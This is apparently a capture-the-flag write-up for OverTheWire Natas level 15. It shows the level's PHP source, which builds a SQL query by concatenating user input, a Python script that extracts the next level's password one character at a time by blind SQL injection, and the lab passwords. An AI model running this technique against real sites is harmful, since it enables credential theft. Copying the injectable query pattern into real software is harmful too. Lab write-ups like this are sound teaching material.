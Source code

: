 <h2>🔰 Level - 15</h2>

- username - natas15
- password - TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB

	There was an input field. We could enter a username and it replies with whether the user exists or not. <br>
	Sourcecode: <br>
	```php
	/*
	CREATE TABLE `users` (
	  `username` varchar(64) DEFAULT NULL,
	  `password` varchar(64) DEFAULT NULL
	);
	*/

	if(array_key_exists("username", $_REQUEST)) {
	    $link = mysqli_connect('localhost', 'natas15', '<censored>');
	    mysqli_select_db($link, 'natas15');

	    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
	    if(array_key_exists("debug", $_GET)) {
	        echo "Executing query: $query<br>";
	    }

	    $res = mysqli_query($link, $query);
	    if($res) {
	    if(mysqli_num_rows($res) > 0) {
	        echo "This user exists.<br>";
	    } else {
	        echo "This user doesn't exist.<br>";
	    }
	    } else {
	        echo "Error in query.<br>";
	    }

	    mysqli_close($link);
	} else {
	?>
	
	```
	From sourcecode, its clear that simple SQL Injection won't work as query results are not directly displayed. Only whether user exists or not, is displayed. <br>

	On watching some walkthroughs, got to know about a technique called "Blind SQL Injection". Here, we dont try to access query results. We blindly make queries with what info we have (like flag format) and, check for validations and piece together info or error message from each query result. <br>

	Here, we know flag is a string of length 32 consisting of lower and uppercase alphabets, and numbers 0-9 <br>

	Now we have to modify the query. User 'natas16' exists. So corresponding password value is to be obtained. We have to check character by character if it exists in 'password' of user 'natas16'. This can be done by pattern matching options in SQL. <br>


	Made a python script to do this in repeat, until entire password can be obtained. <br>

	```python
	import requests

	url = "http://natas15.natas.labs.overthewire.org/"

	username = 'natas15'
	curr_passwd = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"

	session = requests.Session()

	character_list = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

	nxt_passwd = ''

	while (len(nxt_passwd) < 32):
		for ch in character_list:
			print(f"trying {ch}")
			data = {"username":f'natas16" AND BINARY password LIKE "{nxt_passwd+ch}%" #'}  #BINARY to make query case sensitive
			response = session.post(url, auth = (username, curr_passwd), data = data)
			if ("user exists" in response.text):
				nxt_passwd += ch
				break
		print(nxt_passwd)
	content = response.text

	print("\n\n\nFinal Password for Natas 16:", nxt_passwd)

	```

	This script initiates connection. Then loops over all possible characters, making request with each character as data.
	The editd query `'natas16" AND BINARY password LIKE "{nxt_passwd+ch}%" #'`  <br> 

	This means the user is natas16 and password of natas16 consists of password as of now + current character. <br> 
	This evaluates to true if each character is in the password of natas16. <br> 

	Finally prints out the password. <br>

Password for level 16 - TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V